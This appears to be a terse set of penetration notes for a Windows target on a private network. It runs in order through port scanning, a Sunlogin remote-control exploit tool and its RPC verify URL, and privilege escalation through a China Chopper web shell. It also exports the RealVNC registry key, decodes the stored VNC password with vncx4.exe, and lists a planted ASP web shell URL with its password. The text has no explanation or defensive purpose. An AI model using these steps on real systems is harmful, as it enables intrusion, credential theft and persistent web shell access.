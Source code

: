 

tasklist /svc
nmap -p 30000-65535 192.168.163.158
java --module-path javafx-sdk-17.0.10/lib --add-modules javafx.controls,javafx.fxml  -jar Sunlogin漏洞利用工具.jar
`http://192.168.163.158:49188/cgi-bin/rpc?action=verify-haras`


中国菜刀提权
Cmd /c "regedit /e c:\123.reg "HKEY_LOCAL_MACHINE\software\RealVNC\WinVNC4" "


vnc>vncx4.exe -W


`http://192.168.163.136:82/dama.asp`
密码：Skull.
